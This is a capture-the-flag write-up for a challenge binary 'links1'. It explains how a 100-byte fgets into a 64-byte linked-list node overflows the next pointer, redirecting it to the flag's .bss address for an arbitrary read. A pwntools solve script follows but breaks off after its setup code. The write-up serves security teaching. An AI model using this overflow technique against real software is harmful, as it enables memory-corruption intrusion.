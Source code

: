 ## Solution

The `write` function uses a custom linked list implementation and can be broadly broken down into three sections.

1. add/modify **head** element
2. add element to **tail**
3. modify element in the **middle**

When we add an element to the list, a 72-byte chunk is allocated from the heap with `malloc`.

```c
element = malloc(0x48);
```

The 72 byte element is structured like `[64:data, 8:pointer_to_next_element]`

The vulnerability arises when we write data to the node.

```c
fgets(param_1,100,stdin);
```

If we write more than the 64 intended bytes, we'll overflow the element and overwrite the pointer to the element in the list.

Since the flag is loaded into the `.bss` section by `main`

```c
pFVar1 = fopen("./flag.txt","r");
__isoc99_fscanf(pFVar1,&DAT_004021b5,flag);
```

We can easily find and submit the address of `bss.flag` (`0x4040c0`) after our 64 bytes of padding to overwrite the next element with the address of the flag. When we view the list, it will print the flag.

```sh
[!] 2: ictf{arbitrary_read_ftw_d52a23c3}
```

## Solve Script

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401467
continue
'''.format(**locals())

# Binary filename
exe = './links1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

```